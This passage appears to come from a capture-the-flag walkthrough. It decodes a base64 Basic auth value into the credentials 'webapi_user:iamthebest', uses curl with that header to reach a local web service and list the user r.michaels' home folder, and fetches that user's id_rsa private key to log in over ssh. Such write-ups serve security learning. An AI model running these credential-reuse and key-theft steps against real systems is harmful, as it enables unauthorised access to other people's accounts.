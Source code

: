We can verify it by inverting the `base64` value to a text. 

{% highlight sh %}
echo -n "d2ViYXBpX3VzZXI6aWFtdGhlYmVzdA==" | base64 -d
{% endhighlight %}

{% highlight sh %}
webapi_user:iamthebest
{% endhighlight %}

So, we just need to add that value to our "curl" header.

{% highlight sh %}
curl "http://127.0.0.1:3001/" -H "Authorization: Basic d2ViYXBpX3VzZXI6aWFtdGhlYmVzdA=="
{% endhighlight %}

Now we can access the home page of the second instance on port `3001`.

All we need to do is adding `~r.michaels` to the url.

{% highlight sh %}
curl "http://127.0.0.1:3001/~r.michaels/" -H "Authorization: Basic d2ViYXBpX3VzZXI6aWFtdGhlYmVzdA=="
{% endhighlight %}

{% highlight text %}
<!DOCTYPE html>
<html><head><meta charset="utf-8"/>
<style type="text/css">
table {
	border-top: 1px solid black;
	border-bottom: 1px solid black;
}
th { background: aquamarine; }
tr:nth-child(even) { background: lavender; }
</style>
<title>Index of ~r.michaels/</title></head>
<body><h1>Index of ~r.michaels/</h1>
<table cols=3>
<thead>
<tr><th>Name<th>Last modified<th align=right>Size
<tbody>
<tr><td><a href="../">Parent Directory</a><td>16-Sep-2020 18:20<td align=right>1kB
<tr><td><a href="id_rsa">id_rsa</a><td>16-Sep-2020 16:52<td align=right>3kB
</table>
</body></html>
{% endhighlight %}

Remember that the server has been started with the `-X` argument, which means that we have `directory indexing` enabled. This is why we have that response from the server. Be carreful to not forget the trailing `/` in the url. Otherwise, it won't work !

Great, we have access to the local `public_html` folder of `r.michaels`. 
There is a private key inside, let's grab it and connect via `ssh`.

{% highlight sh %}
curl "http://127.0.0.1:3001/~r.michaels/id_rsa" -H "Authorization: Basic d2ViYXBpX3VzZXI6aWFtdGhlYmVzdA=="
{% endhighlight %}
